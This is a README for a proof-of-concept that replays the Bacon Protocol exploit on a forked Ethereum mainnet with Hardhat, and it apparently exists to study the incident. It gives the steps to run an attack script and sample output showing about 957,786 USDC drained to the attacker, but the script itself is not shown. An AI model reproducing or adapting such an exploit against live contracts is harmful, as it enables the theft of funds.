 # Bacon Protocol re-hack PoC

## How to run

Install nodejs/npm first

Set up the `forking url` (in `hardhat.config.ts`)

e.g. https://speedy-nodes-nyc.moralis.io/xxxxxxxxxxx/eth/mainnet/archive (
You need to apply for speedy-nodes from moralis.io)

Then run
```bash
npm install
npx hardhat run scripts/attack.ts
```
You will see similar output later
```
Attacker USDC balance: 0.0
Exploiting... transcation:  0x00ce9e37ea3fb76f861cf0bc114c2d5314acd880a40f0f72d1b1292b72e4db29
Exploit complete.
Attacker USDC balance: 957786.585605
```
This means the attack is complete
> The block height of the fork is 14326931


## Link

* https://twitter.com/peckshield/status/1500105933128495108
* https://www.tofreedom.me/bacon-protocolerc777
